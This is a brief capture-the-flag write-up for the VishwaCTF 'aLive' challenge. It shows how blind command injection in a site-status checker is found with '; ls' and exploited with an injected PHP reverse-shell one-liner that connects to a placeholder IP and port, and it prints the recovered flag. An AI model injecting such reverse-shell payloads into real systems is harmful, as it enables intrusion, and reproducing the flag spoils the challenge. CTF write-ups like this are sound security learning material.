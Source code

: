 # aLive
> In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

## About the Challenge
We were given a website that has a functionality to check our website is active or not

![preview](images/preview.png)

## How to Solve?
This website has a `Blind Command Injection` vulnerability. Because when I input `; ls` the website returned success instead of fail

![testing](images/testing.png)

But in this case, when I used `cat` command. The website returned `Something went wrong!`. So I decided to use reverse shell command

```
; php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh <&3 >&3 2>&3");'
```

And then read `flag.txt` file to obtain the flag

![flag](images/flag.png)

```
VishwaCTF{b1inD_cmd-i}
```